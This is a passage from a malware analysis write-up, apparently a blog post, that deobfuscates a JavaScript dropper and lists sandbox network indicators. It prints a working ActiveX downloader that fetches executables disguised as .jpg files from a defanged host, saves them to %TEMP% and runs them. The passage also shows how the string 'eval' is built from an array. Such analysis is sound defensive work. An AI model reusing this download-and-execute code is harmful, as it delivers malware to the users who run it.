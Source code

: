 ```javascript 00000536215_clean.doc.js
    a += a3 + a4;
};

/* 3.
  Transforms to set a6 = 'eval'
*/
var rosa = ["e", "0", "v", "0", "a", "0", "l", "0"];
var tosta = rosa[0 + a4] + rosa[2 + a4] + rosa[4 + a4] + rosa[6 + a4];
var a6 = tosta;

/* 4.
  The eval() function and a2 is the deobfuscated string to run
*/
// this[a6](a2);
```
Now that we have a readable version of the JavaScript it is pretty easy to tell what it is doing. Basically the script downloads the two files `five1.jpg` and `five2.jpg` which are actually MS-DOS executables. Then using a Windows Script Host Shell it attempts to run each of the downloaded payloads.

```javascript deobfuscated.js
function dl(fr, fn, rn){
  var ws = new ActiveXObject("WScript.Shell");
  var fn = ws.ExpandEnvironmentStrings("%TEMP%") + String.fromCharCode(92) + fn;
  var xo = new ActiveXObject("MSXML2.XMLHTTP");
  xo.onreadystatechange = function (){
    if (xo.readyState === 4){
      var xa = new ActiveXObject("ADODB.Stream");
      xa.open();
      xa.type = 1;
      xa.write(xo.ResponseBody);
      xa.position = 0;
      xa.saveToFile(fn, 2);
      xa.close();
    };
  };
  try {
    xo.open("GET", fr, false);
    xo.send();
    if (rn > 0){
      ws.Run(fn, 0, 0);
    };
  }  catch (er){  };
}
dl("hxxp://31072015a[.]com/images/five1.jpg", "532747350.exe",1);   // Download payload 1
dl("hxxp://31072015a[.]com/images/five2.jpg", "211954869.exe", 1);  // Download payload 2
```
Here are some of the network indicators and behaviors I observed from sandboxing the payloads. If you have any questions or comments about the analysis feel free to reach out to me.

#### five1.jpg/532747350.exe Analysis
    # Payload Download: Response
    * Connected to 31072015a[.]com (195.225.228.156) port 80 (#0)
    GET /images/five1.jpg HTTP/1.1
    User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:37.0) Gecko/20100101 Firefox/37.0
    Host: 31072015a[.]com
    Accept: */*
